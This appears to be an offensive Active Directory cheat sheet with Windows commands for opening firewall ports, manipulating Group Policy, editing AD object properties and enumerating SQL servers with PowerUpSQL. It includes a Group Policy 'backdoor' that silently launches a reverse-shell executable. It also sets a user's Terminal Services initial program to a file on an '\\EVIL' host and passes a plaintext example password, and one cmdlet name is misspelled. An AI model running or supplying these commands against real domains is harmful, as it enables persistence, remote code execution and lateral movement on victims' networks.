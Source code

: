 ### Add/Remove Firewall Rule with Netsh
```console
netsh advfirewall firewall add rule name="Allow 1337" dir=in protocol=TCP localport=1337 action=allow
netsh advfirewall delete rule name="Allow 1337" protocol=TCP localport=1337
```
#### Add/Remove Firewall Rule with PowerShell
```console
New-NetFirewallRule -DisplayName "Allow 1337" -Profile Any -Direction Inbound -Action Allow -Protocol TCP -LocalPort @("1337")
Delete-NetFirewallRule -DisplayName "Allow 1337"
```
### Group Policy PowerShell Module
```powershell
Get-GPO
New-GPO
New-GPLink
Set-GPLink
Set-GPPrefRegistryValue
Get-GPOReport

# Link a new group policy to an OU
New-GPO "Enable backups" | New-GPLink -Target "OU=computers,DC=internal,DC=domain,DC=local"

# Create a registry group policy backdoor
PS C:\> Set-GPPrefRegistryValue -Name "PersistGPO" -Context User -Key "HKCU\Software\Policies\Microsoft\Windows\Control Panel" -ValueName "Persist" -Value "1" -Type String -Action Create -Value "C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden c:\temp\reverse.exe"

# Update group policy on the current computer
Invoke-GPUpdate -Force

# Update group on a specific domain-joined computer
Invoke-GPUdate -Computer "CONTOSO\COMPUT2" -Force
```
### Get ACL for AD Objects
```powershell
get-domainobjectacl -identity matt.admin -domain contoso.local -resolveguids
get-domainou | get-domainobjectacl -resolveguids
```
### Modify Properties for AD Objects
```powershell
set-domainobject -identity john.wick -set @{serviceprincipalname="svc-1/computer"}
Set-DomainObject john.wick -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
set-domainobject -identity john.wick -clear serviceprincipalname
```
### PowerUpSQL
```powershell
# find local SQL servers
get-sqlinstancelocal -verbose
# find remote SQL servers
get-sqlinstancebroadcast -verbose
# find AD-joined SQL servers
get-sqlinstancedomain
# authenticate to SQL server as current user
get-sqlquery -instance "10.10.10.1,1433" -verbose
# authenticate to SQL server with credentials
get-sqlquery -instance "CONTOSO\sql-srv-1" -username john.wick -password "%$Aafl%241*#fea!"
# enumerate domain SQL servers
$serverinfo = get-sqlinstancedomain | get-sqlserverinfothreaded -threads 10 $serverinfo -verbose
```